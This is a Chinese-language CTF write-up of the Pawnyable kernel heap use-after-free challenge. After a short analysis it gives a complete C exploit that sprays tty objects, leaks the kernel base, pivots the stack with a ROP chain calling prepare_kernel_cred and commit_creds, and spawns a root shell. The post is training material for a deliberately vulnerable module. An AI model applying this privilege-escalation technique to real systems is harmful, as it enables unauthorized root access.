

## 前言
本篇博客为Pawnyable第三个专题——内核堆UAF漏洞的利用。

## 题目分析
依旧是保护全开
```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu qemu64,+smap,+smep \
    -smp 1 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user
```
分析一下vuln.ko





程序整体逻辑依旧不难，这次修复了内核堆上的越界写和越界读。g_buf为open时创建，大小为1024,在close时free掉，这里存在UAF漏洞，在close之后g_buf全局变量依旧保存有内核堆的引用。
## 攻击思路
因为UAF堆块的大小为1024,依旧可以考虑tty结构体的劫持。通过栈迁移的gadget将内核栈迁移到提前布置的rop上打krop。
这里笔者直接给出完整攻击脚本，与上一个专题的payload大致相似。
```C
/**
 * @file exp.c
 * @author keyboard (keyboardhitsz@163.com)
 * @brief keyboard's kernel pwn exp
 * @version 0.0
 * @date 2025-11-27
 * 
 * @copyright Copyright (c) 2025 keyboard
 * 
 */
# include</home/keyboard/ctf/tricks/kernelpwn.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t prepare_kernel_cred,commit_creds;
/**
 * Utils 
 */
void get_kallsyms_addr(){

    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }
}


/**
 * Challenge Interface
**/


/**
 * Exploitation
**/

void exploitation(void){
    int fd1,fd2;
    save_status();
    fd1 = open("/dev/holstein", O_RDWR);
    fd2 = open("/dev/holstein", O_RDWR);
    if(fd1==-1 || fd2==-1){
        log_error("error open");
    }
    close(fd1);

    int tty_spray[256];
    for(int i=0;i<256;i++){
        tty_spray[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spray[i]==-1){
            log_error("error tty spray");
        }
    }

    char buf[0x500];
    commit_creds = 0xffffffff810723c0;
    prepare_kernel_cred = 0xffffffff81072560;
    read(fd2,buf,0x400);
    size_t vmlinux_leak =commit_creds+0xffffffff95039c60-0xffffffff944723c0;
    kernel_offset = *(size_t  *)&buf[0x18]- vmlinux_leak;
    kernel_base += kernel_offset;
    size_t g_buf = *(size_t *)&buf[0x38]-0x38;
    printf("kernel base is %p\n",kernel_base);
    printf("g_buf is %p\n",g_buf);

    size_t pop_rdi = kernel_offset+0xffffffff8114078a;
    size_t mov_rdi_rax = kernel_offset+0xffffffff81638e9b;
    size_t pop_rcx = kernel_offset+0xffffffff810eb7e4;
    size_t push_rdx_pop_rsp_rbp = kernel_offset+0xffffffff8114fbea;
    size_t swapgs_restore_regs_and_return_to_usermode = kernel_offset+0xffffffff81800e10+0x16;


    commit_creds+=kernel_offset;
    prepare_kernel_cred+=kernel_offset;

    size_t * rop_chain = buf;
    *rop_chain++=pop_rdi;
    *rop_chain++=0;
    *rop_chain++=prepare_kernel_cred;
    *rop_chain++=pop_rcx;
    *rop_chain++=0;
    *rop_chain++=mov_rdi_rax;
    *rop_chain++=commit_creds;
    *rop_chain++=swapgs_restore_regs_and_return_to_usermode;
    *rop_chain++=*(size_t *)"keyboard";
    *rop_chain++=*(size_t *)"keyboard";
    *rop_chain++=get_root_shell;
    *rop_chain++=user_cs;
    *rop_chain++=user_rflags;
    *rop_chain++=user_sp+8;
    *rop_chain++=user_ss;

    *(size_t*)&buf[0x300+12*8]=push_rdx_pop_rsp_rbp;
    write(fd2,buf,0x400);
    log_info("write ropchain");

    int fd3,fd4;
    fd3 = open("/dev/holstein", O_RDWR);
    fd4 = open("/dev/holstein", O_RDWR);
    close(fd3);
    int tty_spray_2[100];
    log_info("spray tty again");
    for(int i=0;i<100;i++){
        tty_spray_2[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spray_2[i]==-1){
            log_error("error tty spray");
        }
    }
    char fake_tty[0x20];
    read(fd4,fake_tty,0x20);
    *(size_t *)&fake_tty[0x18]=g_buf+0x300;
    write(fd4,fake_tty,0x20);

    log_info("try to trigger tty");
    for(int i=0;i<100;i++){
        ioctl(tty_spray_2[i],0,g_buf-8);
    }


}

/**
 * Main Function
 */
int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```